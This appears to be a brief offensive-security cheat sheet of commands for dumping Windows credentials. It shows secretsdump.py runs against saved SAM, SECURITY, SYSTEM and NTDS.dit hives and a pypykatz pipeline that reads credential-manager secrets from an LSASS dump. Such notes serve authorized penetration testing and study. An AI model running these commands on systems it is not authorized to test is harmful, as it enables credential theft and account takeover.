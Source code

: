# Various python tools to dump credentials locally

The SYSTEM hive is needed to retrieve the bootkey and decipher the DB files.

##### Extract creds from SAM and SECURITY (LSA cached secrets)

    secretsdump.py -system ./system.save -sam ./sam.save -security ./security.save LOCAL

##### Extract creds from NTDS.dit

    secretsdump.py -system ./system.save -ntds ./NTDS.save LOCAL

Read an LSASS dump with pypykatz:

    pypykatz lsa --json minidump $i | jq 'first(.[]).logon_sessions | keys[] as $k | (.[$k] | .credman_creds)' | grep -v "\[\]" | grep -v "^\[" | grep -v "^\]"
